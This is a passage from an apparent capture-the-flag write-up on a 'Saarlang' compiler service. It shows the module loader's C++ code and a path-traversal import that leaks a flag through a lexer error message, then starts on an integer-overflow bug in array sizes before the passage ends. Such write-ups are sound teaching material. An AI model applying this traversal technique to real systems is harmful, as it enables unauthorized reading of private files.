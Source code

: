 It loads the imported file, and declares its definitions in the global namespace.
Let's see how the file is loaded:

```cpp
SaarlangModule *SimpleModuleLoader::load(const std::string &filename) {
    auto it = modules.find(filename);
    if (it != modules.end())
        return &it->second;

    std::ifstream fileinput(basepath + filename, std::ios::in);
    if (!fileinput.is_open())
        diag.file_error(filename);
    return preload(filename, fileinput);
}
```

The module loader first looks in its cache.
If it cannot find the file there, it will read it from disk.
The path is derived as `basepath + filename`, where `basepath` is `../include` (relative to `backend/build`), and `filename` is the path in the `holmol` statement.
This is clearly vulnerable to a path traversal.
What would happen if we tried to import the cave file, where flags are held?

```
$ cat traversal.sl
holmol "../../data/caves/1584867401_1345632849";

$ ./SaarlangCompiler traversal.sl
[ERROR] lexer in ../../data/caves/1584867401_1345632849 at 2:137: Invalid character
> ,"treasure_count":2,"treasures":[{"name":"SAAR{OneFancyFlagOneFancyFlag00000000}","x":645,"y":97},{"
                                  ^
```

Clearly, the cave JSON is not valid in this language.
However, at the lexical analysis stage, all the JSON characters form valid language tokens, except for `[`, which is not part of the language.
Since `[` is used at the beginning of the treasure list, and the lexer outputs some context, the error message leaks the first flag.

There are usually multiple flags per cave, so this isn't that good, but it's an easy first exploit.
Just get all cave IDs from `/api/caves/list`, then visit all of them through `/api/caves/visit` with the path traversal file.

### Bug 2: integer overflow in array size

The language includes array support:

```
var a: lischd int = neie lischd int(123);
var b: lischd byte = neie lischd byte(456);
var x: int = a@5;
b@10 = 65;
```

In this example, `a` is an array of 123 `int` elements, and `b` is an array of 456 `byte` elements.
The `x` variable is initialized with the value of the element at index 5 in `a` (zero-based).
The element at index 10 in `b` is set to 65.
